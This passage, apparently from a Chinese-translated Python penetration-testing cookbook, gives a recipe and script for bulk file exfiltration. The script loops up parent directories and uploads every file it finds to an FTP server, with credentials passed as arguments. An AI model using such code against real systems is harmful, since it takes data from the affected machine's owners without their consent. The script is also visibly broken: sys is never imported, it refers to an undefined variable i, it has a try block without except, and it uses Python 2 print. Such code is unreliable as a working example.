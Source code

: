 为此，您需要一个运行正常的 FTP 服务器。我用的是`vsftpd`，但你可以随意使用。您需要将凭据硬编码到脚本中（不建议这样做），或者将凭据作为标志发送。

## 怎么做…

我们将使用的脚本如下所示：

```py
from ftplib import FTP
import time
import os

user = sys.argv[1]
pw = sys.argv[2]

ftp = FTP("127.0.0.1", user, pw)

filescheck = "aa"

loop = 0
up = "../"

while 1:
  files = os.listdir("./"+(i*up))
  print files

  for f in files:
    try:
      fiile = open(f, 'rb')
      ftp.storbinary('STOR ftpfiles/00'+str(f), fiile)
      fiile.close()
    else:
      pass

  if filescheck == files:
    break
  else:
    filescheck = files
    loop = loop+1
    time.sleep(10)
ftp.close()
```

## 它是如何工作的…

一如既往，我们导入库并设置变量。我们已将用户名和密码设置为`sys.argv`，以避免硬编码，从而暴露我们的系统：

```py
from ftplib import FTP
import time
import os

user = sys.argv[1]
pw = sys.argv[2]
```
